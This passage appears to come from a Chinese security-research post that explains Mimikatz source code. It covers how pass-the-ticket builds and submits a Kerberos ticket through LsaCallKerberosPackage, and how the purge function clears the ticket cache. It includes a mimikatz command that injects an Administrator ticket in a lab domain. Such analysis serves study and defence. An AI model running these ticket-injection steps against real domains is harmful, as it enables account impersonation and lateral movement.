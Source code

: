 ```cpp
submitSize = sizeof(KERB_SUBMIT_TKT_REQUEST) + dataSize;
if (pKerbSubmit = (PKERB_SUBMIT_TKT_REQUEST)LocalAlloc(LPTR, submitSize))
{
    // ...
}
```

这里 pKerbSubmit 在原来 sizeof(KERB\_SUBMIT\_TKT\_REQUEST) 大小的基础上增加了 dataSize，以保证后续将票据数据追加到 pKerbSubmit 指向的内存中。

然后设置 pKerbSubmit 中的成员，必须将 MessageType 成员设为 KerbSubmitTicketMessage，KerbCredSize 设为票据数据的大小 dataSize，KerbCredOffset 设置追加的票据数据相对于 KERB\_SUBMIT\_TKT\_REQUEST 结构起始位置的偏移量，并通过 RtlCopyMemory 将票据数据追加到 pKerbSubmit 扩展出来的内存中，如下所示。

```cpp
pKerbSubmit->MessageType = KerbSubmitTicketMessage;
pKerbSubmit->KerbCredSize = dataSize;
pKerbSubmit->KerbCredOffset = sizeof(KERB_SUBMIT_TKT_REQUEST);
RtlCopyMemory((PBYTE)pKerbSubmit + pKerbSubmit->KerbCredOffset, data, dataSize);
```

最后，通过调用 LsaCallKerberosPackage 函数发送 KerbSubmitTicketMessage 消息请求，将该票据提交到当前会话缓存中，完成票据传递过程。

最终执行效果如下：

```cmd
mimikatz.exe "kerberos::ptt 4-40850000-Administrator@LDAP~DC01.pentest.com~pentest.com-PENTEST.COM.kirbi" exit
```

![image-20230511143221761](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-e7904798e68148652ce23a38ac5bd64bd155bd42.png)

Purge
-----

`kerberos::purge` 功能用于将当前会话缓存的 Kerberos 票据清空。

根据 `purge` 功能的名称找到其入口函数 kuhl\_m\_kerberos\_purge：

- kerberos\\kuhl\_m\_kerberos.c

```cpp
NTSTATUS kuhl_m_kerberos_purge(int argc, wchar_t* argv[])
{
    NTSTATUS status, packageStatus;
    KERB_PURGE_TKT_CACHE_REQUEST kerbPurgeRequest = { KerbPurgeTicketCacheMessage, {0, 0}, {0, 0, NULL}, {0, 0, NULL} };
    PVOID dumPtr;
    DWORD responseSize;

    status = LsaCallKerberosPackage(&kerbPurgeRequest, sizeof(KERB_PURGE_TKT_CACHE_REQUEST), &dumPtr, &responseSize, &packageStatus);
    if (NT_SUCCESS(status))
    {
        if (NT_SUCCESS(packageStatus))
            kprintf(L"Ticket(s) purge for current session is OK\n");
        else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbPurgeTicketCacheMessage / Package : %08x\n", packageStatus);
    }
    else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbPurgeTicketCacheMessage : %08x\n", status);

    return STATUS_SUCCESS;
}
```
